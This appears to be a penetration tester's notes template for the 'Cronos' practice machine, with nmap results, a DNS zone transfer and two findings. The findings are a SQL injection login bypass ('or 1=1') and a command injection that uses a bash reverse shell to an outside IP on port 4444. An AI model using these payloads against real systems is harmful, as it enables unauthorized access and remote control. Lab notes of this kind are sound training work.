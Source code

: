 # Summary
# Location
- IP Address: 10.129.205.183
## System Information
- OS: ubuntu
- Kernal:
- Hostname: cronos
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
http://admin.cronos.htb
SQL Injection
- Exploit 2
http://admin.cronos.htb/welcome.php
found LCE
command=id&host=
command=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.10.16.3/4444+<%261'  can get a shell
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OS
- uri:
- username:
- password:

### admin.cronos.htb
- uri: admin.cronos.htb
- username: tom' or 1=1;#
- password: anything

## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)
PORT      STATE  SERVICE REASON       VERSION
22/tcp    open   ssh     syn-ack      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp    open   domain  syn-ack      ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp    open   http    syn-ack      Apache httpd 2.4.18 ((Ubuntu))
11145/tcp closed unknown conn-refused
47663/tcp closed unknown conn-refused

## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th

Laravel  Laravel is a web application framework.

❯ dig axfr @10.129.200.97 cronos.htb

; <<>> DiG 9.18.8-1-Debian <<>> axfr @10.129.200.97 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 600 msec
;; SERVER: 10.129.200.97#53(10.129.200.97) (TCP)
;; WHEN: Thu Dec 22 13:33:17 CST 2022
;; XFR size: 7 records (messages 1, bytes 203)


admin.cronos.htb


# Exploitation
## Exploit 1
- Title: 
- CVE: 
- EBD-ID: 
- Link: 

## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: 

## Exploit 3
- Title:
- CVE:
- Link:
